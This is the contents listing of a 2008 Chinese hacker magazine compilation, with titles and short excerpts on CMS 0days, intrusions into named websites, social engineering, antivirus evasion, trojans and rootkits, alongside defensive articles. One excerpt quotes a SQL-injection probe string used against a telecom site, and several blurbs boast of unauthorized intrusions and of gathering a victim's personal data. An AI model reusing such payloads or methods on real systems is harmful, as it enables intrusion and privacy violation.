# 非安全黑客手册合订本2008年③④季第一部分

---

## 非安全 · 黑客手册
### 合订本 2008 年 ③④ 季

# CONTENTS 2008.07

## 烽火台
- 18 新闻短评快
- 18 漏洞公告

## 肉鸡接龙
- 20 Dvbbs 8.2 惊爆远程注入漏洞 —— 落叶纷飞 @ 肇庆

## 菜鸟恶补
- 21 蜜罐系统的应用 —— 金婧婧
- 22 谈谈 Windows 下的 IPSec (2) —— 冷雪书生

# 酷玩
- 24 Cooloo 典藏——一句话的应用程序防御系统 —— 风飘雨
- 25 局域网中聊天传输利器——LAN QQ —— Kay4

## cool 技巧
- 25 QQ 空间代码盗！盗！盗！ —— 郝安山(婷之爱)
- 26 快速查看 QQ 陌生人是否在线 —— 小坏坏

## cool 资源
- 26 免费 QQ 秀套装大集锦 —— 郝安山(婷之爱)
- 26 为点亮 QQ 图标前赴后继 —— 凶神恶煞

### Q 版黑客
- 26 菜鸟也来解密 VBS 病毒 —— 旋风骑士
- 28 封杀杀软——由 ws2_32.dll 引发的思考 —— OWENHU [O.S.T]
- 29 几个命令的高级应用 —— 冰的原点 [L.S.T]
- 30 使用 Cain 嗅探 FTP 密码 —— simeon

# 黑小说
- 31 种在黑色六月的特洛伊 —— QYXK-whlw
- 32 一个时间段 —— 笨笨心情女人

# 黑域传奇
- 34 黑客编年史第三集 —— 苗子墨

## 新洞练练看
- 37 鼎峰家教网 V2008 漏洞分析续篇 —— Cool_wXd [C.R.S.T]
- 39 EasyTalk 等于 EasyShell —— sniperhg [O.S.T]
- 42 FTBBS PHP 5.3 版漏洞全面剖析 —— sniperhg [O.S.T]
- 46 笨鸟先飞——记对野草设计 v2.5 版整站程序漏洞的全面分析 —— 孤水绕城
- 49 赛特文章管理系统通杀 0day —— Hack_Ht
- 51 挖掘迅易企业网站管理系统注入漏洞 —— Hack214
- 52 网软漏洞连连看之仿阿里巴巴网上贸易 B2B 电子商务行业门户网站管理系统 & 生成 HTML 静态版 —— 文宏伟
- 57 94xhcms，不负责的 CMS —— 小帅 @ [O.S.T]
- 58 超另类的百度跨站 —— Zarich
- 59 中国风行网络源码漏洞——Cookie 注入的风采 —— 紫腾恋霞
- 61 淮海高科酒店宾馆预定系统 V3.0 漏洞解析 —— 香店谈 [DRT]
- 63 未被引起重视的 BBSXP 2008 注入漏洞 —— 黄正

## 西线无战事
- 65 思科 IOS 的 Tickle 后门技术介绍 —— 杨同光
- 67 利用 SkyucAdmin FTP 软件再次拿到权限 —— gxm [黑色技术]
- 69 巧妙的渗透赌博网站 —— netbee 2.0.1
- 70 曲折的 WebShell —— Evilguy [www.starthack.cn]
- 72 社会工程学——骗子，是你要我还是我要你 —— 小帅 @ [O.S.T]
- 74 MS08-014 漏洞接触 —— Anyele
- 75 初探 COOKIE INJECTION —— 木头鱼 [www.starthack.cn]
- 76 入侵骗子站 xuehk.com 全过程 —— 落叶纷飞 [J.L.S.T] @ 肇庆
- 78 一次简单的 PHP 注入利用 —— 冷颜
- 80 对数据库挂马技术的研究 —— 知识型流氓 [LST] & racle [天阳]

# 快码加编
- 90 Windows 下 Rootkit 编写初步（二）——驱动程序与用户空间的通信（驱动部分） —— 韦韬 @ [电子科技大学凝聚网络安全工作室]
- 92 站长的福音——屏蔽 iframe 挂马 —— 南京自动化研究院 冯谷/rabbitsafe
- 93 汇编实现短信炸弹 —— 倾城
- 94 简单的 API Hook 实现——写一个帮助破解的小软件 —— 残猫
- 96 Javaer 突击之以小建大 —— NaoFanTian

# 高手专栏
- 81 谈谈 JavaScript Injection —— arugamama
- 84 跨站中关于钓鱼页面的伪造 —— lcx

## CRACKER
- 99 86 的破言破语 & 每月破资源
- 99 有趣的半明文注册码游戏——HTML to Image 2.0 注册分析 —— December
- 101 破零之随便注册无提示 —— December
- 102 86 有约题记

### 黑器免杀班
- 85 免杀操作小技巧 —— 蜀国布衣
- 86 让凤凰鸽子重新飞翔 —— 蜀国布衣

# 窗外
- 87 Linews
- 88 菜鸟也拿 Unix 服务器 —— 熟悉的陌生人
- 88 Unix 系统安全—MySQL 涉之初 —— evilangel

## 读编互动
- 104 Q & A —— 徐师傅
- 104 29 号信箱

## 新闻深度
- 111 谈谈 Windows 下的 IPSec (3) —— 冷雪书生
  大家对 IPSec 的基本知识都了解了，现在开始我们真正的 IPSec 之旅。
- 106 VB100 的含金量 —— 刀锋

# 酷玩
- 112 Cooloo 典藏——玩游戏我要窗口化 —— 听听那冷雨
  游戏没有窗口化，QQ 不断地闪进闪出去聊天麻烦不止，还会将游戏卡住，所以查到了一个 DirectX 窗口化工具。
- 112 选择适合自己的 QQ 外挂 —— 蜀国布衣
  一个珊瑚虫倒下了，但各种各样的 QQ 外挂却站了起来。

## 肉鸡接龙
- 107 Tomcat 弱口令批量拿 Shell —— 清原长风 马甲
  Tomcat 安装之后没有修改默认密码（用户名 admin，密码为空），或者密码设置为很简单的弱口令，使得我们有机会可以轻松进入。

## 菜鸟恶补
- 109 蜜罐系统的应用（下） —— 金婧婧
  监狱环境（chroot）是一种交互性更高的蜜罐，虽并不能模拟完整的操作系统功能，但已能捕获大量的信息。
- 114 对一个盗号站的分析 —— 眼镜王蛇
  钓鱼者又能让被钓鱼者不发现骗局，还能让更多的人上当受骗，真可谓是一举两得啊。

## cool 资源
- 115 让 MSN 共享文件夹彻底消失 —— 小坏坏
- 115 WinRAR 另类隐藏文件 —— 南宁哥哥

## cool 技巧
- 116 Netpas 助我轻松拥有外网 IP —— 黎法权
- 116 将 IP 隐藏到底 —— 熊猫书生
- 116 将免费进行到底——QQ 免费活动全攻略 —— 落叶纷飞 [J.L.S.T] @ 肇庆

### Q 版黑客
- 117 注册 @Microsoft.com 的邮箱及解析 —— pop
  如何注册 @Microsoft.com 的邮箱，其实很简单的，只需要有几步就搞定了。
- 117 10 招防止自动播放 —— Sweety^仔仔^
  有什么方法可以阻止自动播放，又能阻挡病毒的入侵？这里就给大家介绍 10 招简单上手的方法解决这个难题。
- 119 拓宽注入工具的使用范围 —— 孤星
  发现早在 06 年 2 月 lcx 前辈就提出了文本框注入，但当时我技术有限，有点不明白，于是当时就一直恶补相关知识。
- 120 Kava 我不怕，打造自己的专杀程序 —— 冰海 [LOVEGN]
  拿着朋友的 U 盘插在自己的电脑上，想看看有什么隐藏文件，正所谓我不入地狱谁入地狱嘛！
- 121 几个命令的高级应用（续篇） —— 冰的原点 [L.S.T]

# 黑小说
- 122 夜幕猫来临 —— Nobody
  你的行为不过是恶作剧心理导致的，恐怕是为了寻找刺激或向同伴炫耀吧，现在你上网的钱就是你刚刚抢来的吧。

## 新洞练练看
- 123 Dvbbs asp.net 0day —— jannock
  this.tablename 变量没有经过过滤就直接放入数据库查询。这就造成了 SQL 注入漏洞。
- 124 最新 PHP168 系统漏洞分析与利用 —— rabbitsafe/南京电力科学研究院
  最新产品中出现了一个严重的 SQL 注射漏洞，可能被恶意用户查询数据库的敏感信息，如管理员密码，加密 key 等等，从而控制整个网站。
- 127 风讯漏洞集锦 —— 冼鉴彬
- 128 致命诱惑——秒杀商业版常州房产网 —— 落叶纷飞 [J.L.S.T] @ 肇庆
  本以为特别定制的商业版程序会很安全，但经过我仔细研读过代码后，发现了其存在着几个重大的漏洞。
- 130 从逍遥网店整站程序后门到批量拿 Shell —— 清原长风
- 130 拿什么来拯救你——网域公司企业网站管理系统 ACCESS 和 SQL 正式版通杀漏洞 —— 孤水绕城
  “此系统是基于 ASP+SQL 技术开发的电子商务平台，运行安全，稳定，快速，全自动化、全智能的在线方式管理、维护、更新的企业网站管理系统”，整站的好它都占全了，那表里是不是如一呢。
- 134 漏洞分析：绕过验证——商贸通再爆致命之伤 —— 花非花 [L.S.T] && [I.S.T]
  想当年大家因为这个漏洞，抓动易和风讯的鸡抓得很爽吧。今天介绍的商贸通的漏洞也是一样的道理。
- 135 南方数据整站系统修补 —— 蒙家晓
- 137 乔客最新漏洞批量拿 WebShell —— Hack（任运贵）
- 137 狙击遨游 —— 阅毒客

## 西线无战事
- 140 入侵重庆朝阳中学 —— roger
  继续向内网渗透，先用 SuperScan 把整个内网的大体环境扫描一下。同时搜集服务器上能搜集到的所有密码信息，为继续渗透做准备。
- 142 高效率的 UDF 提权教程 —— 菜牛
  使用过很多类似的工具后，选出了几种，将它们整合在一起，使各软件紧紧镶嵌在一起，使用起来就像一个软件一样。
- 144 WIN + CISCO 多重跳板并成功提权 —— 菜牛
  结合 WIN 服务器，CISCO 路由多重跳板，DOS 命令状态下成功提权。
- 146 百度也牧马——百度首页挂马漏洞利用 —— Ljjsoft
  百度暴出惊人的挂马漏洞，大家可以利用 index.php 这个文件挂马，执行任何脚本程序。
- 147 菜鸟入侵中社会工程学的爆发 —— Dream an end
  我甚至在他的邮件里发现了他的住址，职位，手机号，甚至是身份证复印件。抛开对他网站的危害，就对他个人而言，我基本上掌握了他真实生活中的、网络上的一切信息，也就是说，在网络这个虚拟世界里，我已经可以完全替代他做任何事情了。
- 150 一次社工反击引发的“惊涛巨浪” —— 夜翼
  我要在这里给大家一个自己的攻击过程，没有使用任何黑客工具，仅在 40 分钟内就拿下了包括破解 126 邮箱、获取中国移动内部技术资料、拿下国家环保局内部邮箱的一个纪实。
- 152 Tomcat 后台另类用法示例 —— lafkkk

# 高手专栏
- 153 跨站攻击实例 —— NP
  从理论走进实战中，从弹框框升华到获取我们需要的东西。
- 154 渗透时注意到的细节 —— Xt9
  提权难道必须 Serv-U 提权？非要溢出？非也。很多时候“社会工程学”比啥都好用。

# 黑客免杀班
- 156 Byshell 终极免杀实战 —— 王龙.武昌造船厂
  选择一款低曝光率高性能的木马，成为眼下当务之急，这次我挑选了 Byshell 这款木马。
- 157 Gh0st 木马源代码基础上的免杀策略 —— 北流浪子

# 窗外
- 159 Linews
- 160 黑手小编的负载均衡技术沙龙之旅 —— 东东 XApache
  2008 年 7 月的第一个周末，黑客手册的小编——XApache，将受土豆大人的委派，参加一个有关负载均衡技术的沙龙，任务：为黑手的高端读者们贡献第一手的负载均衡技术资料。
- 162 Unix 系统安全——可插拔式认证模块初探 —— evilangel

## 泡泡吧
- 163 突破网吧 hcclient 系统 —— 阙士超
- 164 手动+社工轻松破解网维大师还原 —— 活在记忆里
- 164 巧用 WinPE 破解还原软件 —— 孤冷飞寒

# 快码加编
- 165 Windows 下 Rootkit 编写初步（三）——驱动程序与用户空间的通信（用户空间部分与驱动部分续） —— 韦韬 @ [电子科技大学凝聚网络安全工作室]
  用户空间要访问设备，要做的事就是打开指定设备并进行读写操作。在 Win32 API 中，有很多函数可以用于打开设备，这里我使用 CreateFile()。
- 167 Asp 解密游戏编写与通关策略（四） —— 冰域剑客
  从第二轮游戏开始，我们将会把难度逐渐加大，同时会应用到一些更新的知识。
- 168 跟小龙学编反弹木马（一）——反弹上线和简单远控 —— 无敌小龙（张博）
- 170 完全解密破小孩 WebShell —— Novaa
- 171 ASP 大马全解密 —— Novaa
- 172 一次痛苦的下载音乐的经历 —— 乘上白云 [SUS]

## CRACKER
- 174 86 的破言破语 & 每月破资源
- 174 菜鸟也来破热门外挂 —— 落叶鉴定师
  今天我们的破解目标是传世飞天虎，这个外挂注册一个用户就赠送天卡。
- 175 手机游戏破解入门篇 —— 大漠 & 三二 {minisoyo}
  手机游戏的破解也是一样，手机越来越智能，同样功能也越来越多，不再单纯打电话、发短信了，而手机游戏也越来越受游戏爱好者的吹捧。
- 176 百易网页大师 2008.0510 算法分析 —— December

# 专题补遗
- 178 再谈《我的私人 Lab：网络实验室搭建 DIY》 —— 赵岩

## 读编互动
- 181 Q & A —— 徐师傅
- 181 29 号信箱

## 新闻时评
- 183 八月 Web 安全沙龙采访记 —— XApache
  小编参加了一个有关 WEB 安全的沙龙，本次沙龙由 IT168 联合 IXPUB 和 CHINAUNIX 两个论坛共同举办，讲的是关于最近流行的 WEB 漏洞利用与企业用户对安全的态度和防范措施。

---

# CONTENTS 2008.08

## 肉鸡接龙
- 184 菜鸟体验 PHPwind 0day —— clzzy
  八月似乎是出 0day 的日子，不知不觉 PHPwind 又出漏洞了。

## 菜鸟恶补
- 185 谈谈 Windows 下的 IPSec (4) —— 冷雪书生

# 酷玩
- 187 Cooloo 典藏——WebOS 之初体验 —— 上弦月
  有人提出了 Web3.0 的概念，那就是集网络存储与应用服务于一体的 WebOS。
- 188 由“QQ 挂机锁”引发的“挂机危机” —— OWENHU [O.S.T]
  即使是键盘失效，也不一定绝对安全，挂机的朋友们，又要小心了。
- 189 QQ 的小经验+社会工程学的应用 —— 王兴东

### Q 版黑客
- 190 WinRAR 另类小技巧 —— 香店谈 [DRT]
  你在网吧是否有过，想把 ASP 木马改成 JPG 木马，但扩展名却没有显示，这样就无法改。
- 190 步步为赢：巧用 Wsyscheck 清理恶意程序 —— 火影忍者
- 193 利用 JXWebServer 实现手机控制电脑 —— DesertEagle [BlackArm]
  JXWebServer 原本是一款实现用户通过网页控制电脑的软件。
- 194 体验微软的 ASP 注射漏洞分析工具 —— 落叶纷飞 [J.L.S.T] @ 肇庆
  这款 ASP 注射漏洞分析工具确实很不错，特别是它的智能漏洞描述功能。
- 195 反盗号之跑跑卡丁车木马及再次利用 —— Phenix

# 黑小说
- 196 夜幕猫来临 II——坠落的男人 —— Nobody
  开门的是一个风韵十足的美女，齐腰的长发撩人地垂过耳际。

## 新洞练练看
- 198 Discuz!NT 较弱智的 SQL 注入漏洞 —— jannock
  它的 SQL 语句写法大部分用到了参数化查询，但还是有部分 SQL 语句用的是传统的写法，这就造成了 SQL 注入的可能。
- 199 七剑下山——Dvbbs 注射 0day 7 连发 —— 落叶纷飞 [J.L.S.T] @ 肇庆
  Dvbbs 的 7 个注射漏洞？？？YES，本文直接给出了这七个漏洞文件的代码。
- 202 警钟长鸣——警惕隐藏在网站背后的陷阱 —— 孤水绕城
  文件夹下有一张 JPG 格式的图片没有缩略图显示，直觉告诉我这个东西一定有鬼，用记事本打开，果然，还真给放了一句话。
- 205 PHP168——补出来的洞 —— 樱花浪子
  其实这次官方不打补丁也许没有人知道，而打了补丁稍稍懂点 PHP 的人就……
- 206 CreateLive CMS V4.X SQL 注入 0day —— Jannock
  创力的 CMS，从安全性和功能方面来说都算是一个比较强大的 CMS，今天我暴出它的一个 SQL 注入 0day。
- 207 60 度 CMS 的致命伤 —— sniperhg [O.S.T]
  这个程序致命伤有 2 处，一个是传统的注入，还有一个就是弱不禁风的后台验证。
- 209 oblog 4.60 Final 0day —— Mystery
- 211 浩劫 php_gbk_0day —— 小帅(xsser) @ [O.S.T]
  80sec 的大牛们放出了一个 PHPwind 0day，描述是 GBK 字符集导致注射。
- 212 “重重突破”到“致命一击”——分析利用高贝文章 v3.0 漏洞 —— 莫X问 [B.H.S.T]
- 214 网软漏洞连连看之电子商务网上购物网站自助建站管理系统正式版 —— 94.andy( 94.嫒伱☆)

## 采访
- 216 低调是最牛 X 的炫耀方式——采访 Subug、Wolfexp、4sec、Zone-h 站长 Amxku —— Lizaib

# 黑域传奇
- 218 黑客编年史第四集 —— 苗子墨
  翻开任何一本《计算机原理》的书籍，他的名字永远在计算机之父冯·诺依曼之前。他是天才，更是一个传奇。

## 西线无战事
- 222 记一次房产门户网站渗透全过程 —— rabbitsafe
  MySQL 5 数据库由于增加了系统数据库 information_schema 的结构，如果成功利用此数据库，可以猜出整个 MySQL 5 中的所有数据库名和表名。
- 225 演示 MYSQL 提权另类方法补充 —— 菜牛
- 226 GOOGLE 也来钓鱼?
- 227 对创易网的安全检测 —— 胡星儒
- 228 利用注册表对终端进行操作 —— 古典娃娃
  我们可以通过注册表来偷偷地修改它而不用重新启动系统。
- 230 让小菜学点技巧的论坛入侵 —— 老K教练
- 232 小小跨站网中游 —— OrphousV
- 232 艰难入侵“中国被黑站点统计系统” —— BloodSword @ Okee & vtwo
  进了一个站叫“中国被黑站点统计系统”，收录了 5W 多条黑页记录。经过一番努力，最后终于拿下了这个站点和整个服务器。
- 235 某某博客之挂马发现 —— 水银 [B.S.N] & [B.U.P]
- 236 CuteEditor 也曝洞 —— 中国期刊网分站遭沦陷 —— 孤水绕城

# 高手专栏
- 238 XSS 工具 BeEF 初探 —— lcx
  BeEF 是一个很了不起的创意，它是一个 XSS 工具，基于 PHP 的网络应用，它捕捉那些有 XSS 应用漏洞的用户浏览器的请求。

### 黑器免杀班
- 239 简单免杀“黑洞” —— 钟光远

# 窗外
- 240 Linews
- 241 凝眸千年的期盼——QQ for Linux 初体验 —— 风飘雨

# 快码加编
- 243 Windows 下 Rootkit 编写初步（四）——操作内核对象（隐藏进程） —— 韦韬 @ [电子科技大学凝聚网络安全工作室]
- 245 利用文件捆绑实现 EXE 文件图标修改 —— 冰海 / [LOVEGN]
- 246 3322 密码爆破工具编写 —— 无敌小龙（张博）
- 249 VC 打包自己的 Radmin —— 影
- 251 轻松打造 ASPX 小马 —— Author: 4lert [D.R.T]
- 252 Asp 解密游戏编写与通关策略（五） —— 冰域剑客

## CRACKER
- 253 86 的破言破语 & 每月破资源
- 253 破零之 SMC 技术在破解中的运用 —— December
- 254 网络验证类软件的破解——用 ASP 破解 NetBot —— Tommie

## 读编互动
- 256 Q & A —— 徐师傅



## 2008.10

## 新闻时评

### 258 黑“鹿”事件

三鹿事件在第一时间被报道出来后，网络上已经是热闹非凡，这时候部分黑客开始了练手。随着事件的愈演愈烈和各方面的声讨，三鹿集团官方网站成为了黑客攻击的对象

## 肉鸡接龙

### 259 利用cookie注入大量拿站 zarich

目前流行的企业网站整站系统有很多，如亿联网络、南方数据、网软天下、良精科技等等，我这里列出来的都可以说是同一个企业整站系统，因为其源代码几乎一样，连漏洞页面都一样

## 菜鸟恶补

### 260 让自己在网络中隐身 痛着

其实黑客入侵主要还是通过IP地址，因此我们只需要通过IP地址来隐藏即可

### 262 谈谈Windows下的IPSec(5) 冷雪书生

通过前面的学习，你应该能够建立IPSec安全规则了，但怎样完善这个规则呢？如果IPSec出了问题，怎样进行诊断呢？这就是我们今天要学习的内容

# 酷玩

### 264 cooloo典藏——鼠标自由行 上弦月

### 265 关于QQ绿钻的紧急通知 傻孩子---山

### 265 让你的QQ空间变得最炫 Milky Way

## cool 技巧

### 266 不是会员用QQ发魔法表情 我非英雄

### 267 无限次使用QQ空间醒目灯！一键即可拥有！ 天方不夜谭

### 267 帮你找回丢失的QQ好友 褚哀罔事

## Q版黑客

### 267 对一款电子书籍的“破解” simon

### 269 拒绝sethc后门最绝的方法 古典娃娃[sec120 广州天河]

### 270 手工破解XP登录密码 夜凉如秋水

面对一个忘记了密码的XP系统并没有一个很好的破解方法，我就把自己实践过的一个通用破解技巧详细的教给大家

### 271 CMD防御新招 佚名

又有人用组策略之类的给cmd降权，可现在“黑手”论坛上的编程板块也早已有人开发出了sys权限的cmd程序了。于是，脚本防御渐渐被重视起来

### 271 记一次“完整”的社会工程学行动 OWENHU [O.S.T]

从小凤那里得到消息，说夜冥回老家“种田”去了，暂时不能回来，于是，我便开始了对夜冥的一次社会工程学行动

### 273 对“批处理注入和防范”一文的补充 kysword

### 274 破解Windows密码，你要花几秒 OrphousV

通俗的说，彩虹表破解的方式就是将口令进行预算，然后在破解时与预算结果进行对照

### 276 将挂级进行到底 踏雪

QQ挂级搞定了，那其他系统的呢？比如说百度吧，每天登录一次就能增加一些积分，日积月累下来，还是比较可观的。要知道如何操作？Follow Me!

# 黑小说

### 277 Who is the criminal ? riverhead

《北京晚报》上出现了一条新闻，某长期从事敲诈勒索的黑客团伙昨日被一网打尽，十九名成员全部抓获

### 278 经理，我们恋爱吧。 Magic dog

“哇！老大您以后会不会带个MM来现场XXOO？”不知哪个“强淫”冒了一句

## 新洞练练看

### 280 最新Dedecms织梦系统0DAY分析与利用 冯谷/rabbitsafe 国网电力科学研究院

跟我一起去看看这0day是怎么形成，并找出漏洞利用方法吧

### 283 phpcms注射0day三连发 落叶纷飞[J.L.S.T] @ 肇庆

为大家介绍phpcms的三个高危漏洞

### 284 BBSGOOD 5.0 SQL版两个注入分析暨利用 Tommie

BBSGOOD是国内首创使用缓存技术的论坛，使得大量的访问无需服务器的重复计算。不知道它的安全怎样呢？

### 285 从PHP宽字符转码缺陷到phpwind、sablog漏洞分析 落叶纷飞[J.L.S.T] @ 肇庆

作者说只有gbk编码才会产生这个漏洞，这个观点是错误的，并不是只有gbk编码集才会产生此漏洞，类似于BIG5、DB之类的都会产生此漏洞

## 目录

### 288 OBLOG4.6 ACCESS与SQL通用后台拿站实测 一手夹烟

给大家带来另外一种 oblog 的拿 webshell 的方法

### 289 acteecompany 企业网站建设系统漏洞分析 zarich

直接 request 进 pid 就进行查询了，没有任何过滤，注入产生

### 290 新云 v3.1 遍历目录漏洞分析及利用 冰域剑客

存在漏洞的文件是在 admin/inc 目录下的 cis_AdminFile.asp，其他两个文件 Admin_UploadFile.Asp 和 admin_selfile.asp 都是因为调用了它才形成漏洞的

### 290 挑战大连中介网 冰的原点[L.S.T]

学校在用这个程序的同时，管理员好象还对程序做了手脚，要是没做手脚，估计学校早就被我拿到 SHELL 啦

### 292 对网趣网上购物系统时尚版 V8.0 浅析 香店谈 [DRT] & Mistakes. [DRT]

看看他的防 SQL 注入程序怎么写的，看了让我大汗直淋啊

### 294 ASP 网站安全续谈 猪哥靓

### 296 剑封喉——EvGO 香店谈 [DRT]

### 297 乐学迷你 BBS 漏洞探究 sniperhg [O.S.T]

可能程序员以为这个文件的参数都是 POST 来的，所以不在 IE 地址栏我们就看不出来吧，殊不知我们是研究它代码的人啊

## □ 西线无战事

### 298 记一次曲折渗透之旅 rabbitsafe

乔客 cms 系统这个上传漏洞也是很早之前的了，难怪我试了好几个站都不行，不过，我倒是发现了乔客 cms 系统存在另外一个漏洞，并结合这个漏洞来了一次曲折渗透之旅

### 300 旁注拿下威雨流量工作室 MIAO

今天的目标是威雨流量工作室的站，收流量收到开网站来收的份上按说也不是小本买卖了，无耻的是他竟然在己站上挂马

### 302 渗透四川水利职业技术学院 晓华[岁月联盟]

这个网站上面写着“欢迎同学们找漏洞信息，能找到的联系其管理员。”看来管理员很狂嘛，没几下子肯定不敢那样说。于是对其进行渗透，因为这个可是合法的入侵渗透测试，HoHo

### 305 对国内某著名移动通信公司网站的一次安全检测 雪山剑神

抱着试试的态度，提交 searcher.jsp?KeyWord=手机%25'%20and%20'a'='a'||'b'='b'%20--，返回正常页面，噢耶！原来是 Oracle 数据库

### 306 对 XX 信和 X 想公司的渗透测试 马俊

作者的技法没问题，在文挡方面还是要多多努力呀，其实在网安公司工作，五分实力五分文挡

### 308 对某网站的一次提权渗透 梦幻剑客

如果当初管理员对服务器做安全性处理，从源头上封杀 webshell 我想也就不可能短时间被拿下 SYSTEM 权限

### 310 渗透某高校内网服务器 晓华[岁月联盟]

我们上传一个免杀的 LCX 到服务器上，再登录肉鸡下载 LCX 建立端口监听。然后我们再利用 XP_CMDSHELL 执行反弹的转发命令

## □ 高手专栏

### 311 我在入侵过程中用过的三大门派的几个工具 lcx

举个最简单的例子，系统自带的 PUSHD.exe 命令我敢打赌可能 100 个学黑客的人里有 50 个人没用过，30 个人根本没留意。10 个人不知道有这东东，另外 10 个人偶尔用过

### 313 我喜欢的几款小工具 樱花浪子

可以设置多长时间刷新一次，这里 600 秒是 10 分钟。如果挂马代码被去掉了则会自己加上

## □ 黑器免杀班

### 315 换种思路躲过雷客图 逆流风 (李友贤)

换个角度思考一下，我们的木马躲过杀软是通过加壳，修改特征码等手段，都是修改自己，那么为什么不修改杀软让它查不出我们的木马呢

## □ 窗外

### 317 Linews

### 318 Chroot “监牢”之行 (一) 上弦月

chroot 是内核中的一个系统调用，软件可以通过调用库函数 chroot，来改变某个进程所能见到的根目录

### 319 破解无线 WEP/WPA 加密笔记 Mickey

可以看出采用 WEP 加密的 AP 越多，选择一个我们的目标，然后开启 wifi0。这次就选择 ESSID 为 Mandy-Tplink 的作为目标破解了

### 320 菜鸟也会 linux 下防火墙的配置 吴杰

Iptables 是一款 linux 下内核级的防火墙软件，一般 linux 的服务器都会配置它

## □ 快码加编

### 321 跟小龙学编反弹木马 (二) ——远程屏幕截取 无敌小龙 (张博)

UDP 协议是一种面向无连接的协议，也就是不管对方是否监听了一个服务端口，也不管数据是否被准确投递到位，并且没有 TCP 协议的三次握手，就可以直接发送数据

### 323 VC 编程实现动态捆绑 EXE 文件 重庆通信学院 杨阳 (地域通信教研室) 古勇军 (移动通信教研室)

文件捆绑指的是把寄生文件与母体文件合并成一个文件，在运行母体文件的同时寄生文件也同时被运行了

### 327 编写基于 PHP 语言的脚本病毒 束访 & 鍵銳

这种病毒看起来与一般的 PHP 文件并无太大差异，病毒程序所用的函数都是正常的 PHP 自带的函数，这么说来这种病毒就是一种带有“病毒特性”的正常的 PHP 文件

## CONTENTS

## CRACKER

### 329 86 的破言破语 & 每月破资源

### 329 玩转大水牛加密壳 V1.5 December

记得某天逛了一下暗组, 发现一个加壳工具, 叫做 “大水牛加密壳 V1.5”

### 331 轻松破解中国电子地图 2008 注册限制 WYD 永远的猪

## 2008.11

## 新闻时评

### 334 微软 “黑” 世界

## 肉鸡接龙

### 335 利用 zeroboard 0day 拿 shell 冰的原点[L.S.T]

话说这个漏洞大概流传了两三月了吧, 我最早见到这个 exp 是七月份, 但那个时候没有拿到手, 搞站的时候碰到这类系统就叫朋友帮忙用本文中的 exp 来搞定的

## 菜鸟恶补

### 336 Vista 也玩 PHP (上) 上弦月

如果没有一个好的开发环境, 自然是不方便的。那 Vista 下怎样搭建一个 PHP 环境呢

### 338 命令行下压缩也疯狂 过客似风

我们在下载肉鸡上一些比较大的文件 (如视频) 时, 总想用压缩工具压缩一下, 从而缩小文件的体积提高下载速度。但在压缩文件时我们总不能把压缩软件的窗口亮出来吧。这时, 命令行下的压缩工具就有用武之地了

### 338 映像劫持保护 Shift 后门 天涯衰草

# 酷玩

### 339 cooloo 典藏——绝对免费! 不开红钻免费换 Q 秀 天涯猎人

但这也难不倒我们, 用 QQ 截图截下来就 OK 了, 再弄成你的个人形象就 OK 了, 但有的人会问: 那动态的要怎么办呢? 也很简单: 动态 QQ 秀一般都是 2 帧组合成的, 还是用截图的方法

### 341 网络开通 QQ 手机付费图标 郝安康

### 341 口袋西游收费外挂的本地破解 蓝橘子

### 342 不用审核拿 FLASH 地址 冰火 @ 邯郸

### 343 破解 NOKIA 塞班 S60 系统, 如此轻松! 风逝水

## 读编互动

### 332 Q & A 徐师傅

## cool 技巧

### 344 一劳永逸, 永久点亮 QQ 音信图标 郝安山

### 344 QQ 那些鲜为人知的秘密 郝安山

### 345 让 QQ 人气涨! 涨! 涨! 傻孩子山

## Q 版黑客

### 345 看小菜怎样攻破 EFS 文件加密系统 天涯猎人

因为 EFS 加密分布于系统底层, 与系统紧密结合, 所以不可能通过改变算法来破解, 但是, 今天我就来带领小菜们来攻破这个号称第一的 EFS 加密文件系统

### 348 网站挂马检测与清除 Simeon

当一个网站运营很长时间后, 网站文件会非常多, 手工查看网页文件代码非常困难, 杀毒软件仅仅仅对恶意代码进行查杀, 对网页木马以及挂马程序不一定全部查杀, 本文就如何利用一些安全检测工具软件来检测和清除网站木马方面进行探讨

### 349 教你制作 Pubwin2008 终结者 无情剑客 @ 梁泽滨

一般的收费软件都采取进程保护的, 禁止进程实现免费上网的确有点困难。其实我写这篇文章的主要目的是演示一下如何禁止并且屏蔽一些收费软件的运行

### 351 批处理之 U 盘病毒木马传播 冰风清源 @ 高青一中

### 353 瑞星卡卡不良网站访问防护绕过漏洞 爱无言

# 黑小说

### 355 净 蛇(PDwoot)

为了省事儿, 肯定让 IE 浏览器自动保存了密码, 我们只不过是在远程控制的时候, 把光标定位到了用户名那里, 然后按了一下 TAB 键, 密码就自己出现在那里了, 根本不需要什么 “黑客软件”!

## 社会工程学


### 357 记一次社工复仇 Morpheus

这个人的生日可能是19890810，通过这个信息我们去查看一下邮箱，结果密码正好就是他生日的全部

### 358 社会工程学渗透广西网通影视站 APPLE110

叫上一碗老友粉，点上一只烤鱼开始漫谈起电信重组的事情……科长突然发话：“我们家装的是网通，虽然慢但是电影多，不过有些经典的片想下载下来讯雷却找不到地址，肥黑等下我家帮我下那片《同事三分亲》，没加班费的哟（笑）”。果然是“同事三分亲”

### 360 渗透成功后的社会工程学初探 rabbitsafe

今天遇到了一种很特别的情况，网站不是同一台服务器，而数据库却是同一台服务器的，所以我就把它叫做跨服务器的旁注，没听过吧

### 387 渗透中国厨房设备供应商网 RabbitSafe

## □ 新洞练练看

## □ 高手专栏

### 362 从找漏洞到入侵FTBBS官网外加渗透一条龙 sniperhg [O.S.T]

不管是PHP版的还是ASP版，这次ASP版更新到了7.0，我下载回来看了看，找了点“小”漏子，还“一不小心”拿下了官网的服务器

### 364 懦弱的庞然大物——88852门户网系统分析 Dream an end

第一感觉是这个系统真大啊，光asp文件就几百个，想来网上用的人一定不少。俗话说：“林子大了什么鸟都有”，这么大的一个系统少不了有各种漏洞

### 367 光线电子商务平台 v2008 简单分析 sniperhg [O.S.T]

### 368 传奇私服漏洞大全以及拿 WEBSHELL 详解 ilink

个人总结了一下传奇私服的常见漏洞隐患以及部分漏洞代码的分析，以下为传奇私服漏洞大全，希望大家玩传奇私服的时候，可以自己做主

### 371 “科讯“系统漏洞的利用方法 初学者

### 374 Cookie 注入 + 上传漏洞击垮酷维企业网站程序CMS Dream an end

